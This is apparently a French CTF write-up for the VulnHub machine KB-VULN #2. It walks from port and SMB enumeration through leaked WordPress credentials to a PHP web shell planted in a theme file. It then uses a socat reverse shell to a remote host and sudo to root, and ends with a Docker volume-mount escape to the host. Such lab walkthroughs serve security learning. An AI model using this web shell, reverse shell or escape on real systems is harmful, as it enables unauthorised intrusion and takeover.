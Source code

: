 # Solution du CTF KB-VULN #2 de VulnHub

2 Rapides
---------

Voici donc [la suite](https://www.vulnhub.com/entry/kb-vuln-2,562/) du précédent CTF de la série.  

Un scan de port remonte du Samba et du Apache :  

```plain
Nmap scan report for 192.168.56.6
Host is up (0.00032s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:03:F4:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2021-12-07T12:23:16
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: kb-server
```

Sur le serveur web on trouve via énumération des dossiers un wordpress installé. Le module *wp\_enum* de *Wapiti* détecte quelques plugins et thèmes mais rien de critique :  

```plain
[*] Lancement du module wp_enum
Enumération des extensions WordPress :
akismet 4.1.6 détecté
----
Enumération des thèmes WordPress :
twentytwenty 1.5 détecté
twentyseventeen  détecté
twentynineteen 1.7 détecté
```

Avec l'aide de *wpscan* j'obtiens la version du Wordpress :  

```plain
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'WordPress 5.5.1'
```

Là encore rien de critique. Direction Samba sur lequel on trouve un disque partagé avec une archive zip :  

```bash
$ smbclient  -U "" -N -L //192.168.56.6

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      OPEN YOUR EYES!
        IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$ smbclient  -U "" -N //192.168.56.6/Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 12:58:56 2020
  ..                                  D        0  Wed Sep 16 12:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 12:58:56 2020

                14380040 blocks of size 1024. 8346256 blocks available
smb: \> lcd /tmp
smb: \> get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (80905,3 KiloBytes/sec) (average 80905,4 KiloBytes/sec)
```

A l'intérieur on trouve entre autres un fichier *remember\_me.txt* avec le contenu suivant :  

```plain
Username:admin
Password:MachineBoy141
```

Il y a aussi les identifiants de base de données dans la configuration du Wordpress :  

```php
define( 'DB_NAME', 'wordpress_db' );                                                                                   

/** MySQL database username */                                                                                         
define( 'DB_USER', 'kb_vuln' );                                                                                        

/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'hellelujah' );
```

Le mot de passe *MachineBoy141* ne permet pas un accès sur SSH / SMB mais permet d'accéder à la zone d'administration du Wordpress.  

La technique habituelle consiste à éditer un fichier PHP via l'interface de Wordpress. On peut éditer les fichiers des thèmes installés mais tous ne permettent pas la modification (en raison des permissions sur les fichiers).  

Finalement j'ai édité le fichier *wp-content/themes/twentynineteen/404.php* pour y mettre le code suivant au début :  

```php
if (isset($_GET["cmd"])) { echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; }
```

2 Furieux
---------

D'après les interfaces réseau on est dans un Docker :  

```plain
3: docker0:  mtu 1500 qdisc noqueue state DOWN group default 
 link/ether 02:42:21:e3:e8:8c brd ff:ff:ff:ff:ff:ff
 inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
 valid\_lft forever preferred\_lft forever
```

*socat* est présent alors j'en profite pour récupérer un reverse shell avec PTY.  

Côté attaquant : 
```bash
socat file:`tty`,raw,echo=0 TCP-L:4242
```

Côté victime : 
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

En réutilisant les identifiants SQL je fouille dans le serveur MySQL local mais je ne trouve rien d'intéressant.  

Il y a un utilisateur *kbadmin* sur la machine et il utilise le même mot de passe que le Wordpress (*MachineBoy141*) on peut accéder au compte via la commande *su*.  

On peut se connecter aussi directement via SSH mais le service est dans le container donc aucun gain.  

L'utilisateur a des autorisations *sudo* pour passer root :  

```plain
kbadmin@kb-server:/$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL

root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Toutefois on est toujours dans le container, il est temps de s'échapper. Là encore on va employer une technique classique d'escalade de privilèges via Docker consistant à monter le disque de l'hôte dans le container.  

[Voir ici](https://www.trendmicro.com/en_us/research/19/l/why-running-a-privileged-container-in-docker-is-a-bad-idea.html) pour plus d'informations sur les risques de lancer un container Docker avec privilèges.  

Mon problème est que la VM n'a pas d'accès Internet, je ne peux donc pas faire un simple Docker pull. A la place je vais créer une archive d'une image Alpine Linux pour la copier ensuite dans la VM.  

```bash
$ docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

$ docker images -a
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
alpine              latest    c059bfaa849c   12 days ago    5.58MB

$ docker save --output alpine.tar c059bfaa849c
```

Ensuite je charge l'image et l'exécute en montant le */root* de l'hôte :  

```bash
kbadmin@kb-server:~$ docker load --input alpine.tar
8d3ac3489996: Loading layer [==================================================>]  5.866MB/5.866MB
Loaded image ID: sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18

kbadmin@kb-server:~$ docker run -it -v /root:/real_root sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18
/ # ls /
bin        dev        etc        home       lib        media      mnt        opt        proc       real_root  root       run        sbin       srv        sys        tmp        usr        var
/ # ls /real_root/
flag.txt
/ # cd /real_root/
/real_root # cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Evalal'travail !  


*Published December 08 2021 at 12:07*